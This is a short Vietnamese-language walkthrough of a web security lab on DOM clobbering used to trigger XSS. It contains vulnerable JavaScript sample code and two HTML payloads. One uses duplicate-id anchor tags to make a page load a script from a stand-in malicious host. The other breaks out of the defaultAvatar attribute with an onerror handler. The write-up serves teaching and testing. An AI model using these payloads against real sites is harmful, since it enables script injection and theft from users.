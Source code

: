# Exploiting DOM clobbering to enable XSS 

Dom clobbering đưa HTML vào trang để thao tác với DOM và thay đổi hành vi của Javascript trên trang. Khi người dùng có thể kiểm soát các thuộc tính thuộc whitelists chẳng hạn như `id` hoặc `name` . Hình thức phổ biến nhất là sử dụng phần tử anchor để ghi đề biến toàn cục và sau đó biến sẽ được sử dụng để khai thác DOM.

Một số nhà phát triển Javascript thường code như sau:

``` javascript
var someObject = window.someObject || {}
```

Nếu chúng ta có thể kiểm soát một số HTML đầu vào thì có thể ngắt một đối tượng hay còn gọi là clobbering và tham chiếu đến một node DOM, chẳng hạn như đoạn code ví dụ sau:

```javascript
<script>
 window.onload = function(){
    let someObject = window.someObject || {};
    let script = document.createElement('script');
    script.src = someObject.url;
    document.body.appendChild(script);
 };
</script>
```

Từ đoạn code dễ bị tấn công này chúng ta có thể chèn vào HTML để hủy đối tượng nào đó tham chiếu đến phần từ anchor:

``` html
<a id=someObject><a id=someObject name=url href=//malicious-website.com/malicious.js>
```

Bởi vì hai ID giống nhau được sử dụng, DOM sẽ nhóm chúng thành một tập hợp và sau đó DOM destruction sẽ sử dụng tập hợp này để ghi đè tham chiếu đối tượng đó. Thuộc tính name được sử dụng trong anchor để ngắt thuộc tính URL của đối tượng `someObject` và trỏ đến một tập lệnh bên ngoài.

Quay trở lại với challenge này, chức năng bình luận trên trang cho phép sử dụng HTML để comment, nhưng không cho phép các thẻ thực thi Javascript. View page source và thấy trong đó có một file là `resources/js/loadCommentsWithDomClobbering.js` 

Chúng ta sẽ nhận ra ngay nó sẽ na ná giống với đoạn code bị lỗi bên trên

![image](https://user-images.githubusercontent.com/68894302/176596455-4a0d9116-fe24-4f33-86dd-89ee4f049a48.png)

Đoạn code này chúng ta có thể sử dụng phương pháp trên để overwrite lên đối tượng `defaultAvatar` như sau

``` html
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid;&quot;onerror=alert()//">
```

Sau đó tthêm 1 lần comment để triaged lỗ hổng

![image](https://user-images.githubusercontent.com/68894302/176645628-eadc6ef3-9d93-4810-9c51-54fb7cc48eff.png)